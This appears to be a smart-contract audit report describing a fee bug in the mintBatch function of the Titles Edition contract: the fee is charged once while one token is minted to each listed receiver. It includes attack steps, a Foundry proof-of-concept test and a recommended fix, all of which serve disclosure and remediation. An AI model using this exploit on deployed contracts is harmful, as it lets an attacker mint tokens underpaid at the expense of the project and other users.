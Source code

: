 Prehistoric Mercurial Monkey

high

# The attacker could mint all the tokenId's, but paying the fee only for the 1 tokenId

## Summary
In the mintBatch function we can mint a token to a set of receivers for the given work. However the function works incorrectly, because the fees is paid only for 1 tokenId, but the issue function mint tokenId in the loop to the different addresses.
## Vulnerability Detail
1. Attacker create many accounts as receivers_
2. Attacker invoke the mintBatch and pay the fee for minting 1 tokenId.
    2.1 - The 1 tokenId is minted for each receiver in the loop till the maxSupply is reached
3. Attacker receives all the tokenId's while paying only for one tokenId

```solidity
function test_mintBatchToManyUsers() public {
        address[] memory users = new address[](5);
        users[0] = address(1);
        users[1] = address(2);
        users[2] = address(3);
        users[3] = address(4);
        users[4] = address(5);

        address attacker = address(8888);
        vm.deal(address(attacker), 1 ether);

        console.log("The attacker balance before", address(attacker).balance);
        vm.prank(address(attacker));
        edition.mintBatch{value: 0.01275 ether}(users, 1, 1, "0x");
        console.log("The attacker balance after", address(attacker).balance);
    }
```

## Impact
Attacker could mint all the tokenId's to hisself(accounts that belongs to attacker) and prevent other user's from minting this tokenId

## Code Snippet
https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/editions/Edition.sol#L304-L320

## Tool used
Manual Review / Foundry

## Recommendation
Ensure that the correct amount of fees is paid, based on the overall amount of minted tokenId's.
